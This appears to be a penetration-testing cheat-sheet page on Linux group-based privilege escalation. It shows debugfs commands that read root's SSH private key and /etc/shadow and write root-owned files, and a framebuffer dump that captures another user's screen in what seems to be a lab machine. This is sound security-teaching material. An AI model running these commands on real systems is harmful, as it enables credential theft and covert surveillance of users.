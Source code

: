### adm

All members of the group `admin` have access to logs files:

```text
/var/log/
```

### disk

All members of the gorup `disk` have full access to the filesystem.

```text
df -h #search disk

debugfs /dev/sda1
debugfs: cd /root
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

We can also write files on the filesystem.

```text
debugfs -w /dev/sda1
debugfs: dump file1.txt file2.txt  #Copy file1.txt to file2.txt
```

{% hint style="info" %}
**Hint**: Files owned by root are now writable such as `/etc/passwd` or `/etc/shadow`.
{% endhint %}

### video

The video group has access to view the screen output of all opened sessions \(tty\). With `w` command we can see the who is logged on the server:

```text
moshe@falafel:/var/log$ w
 17:35:42 up  3:40,  3 users,  load average: 0.22, 0.09, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      13:55    3:40m  0.05s  0.04s -bash
moshe    pts/0    10.10.14.20      17:18    0.00s  0.08s  0.00s w
moshe    pts/1    10.10.14.20      17:18   15:17   0.03s  0.03s bash
```

So we need to grab the video output and graphics configuration.

```text
moshe@falafel:/var/log$ cat /dev/fb0 > /tmp/screen.raw
moshe@falafel:/var/log$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```

Finally we can open the data with GIMP.

![](../.gitbook/assets/video.png)

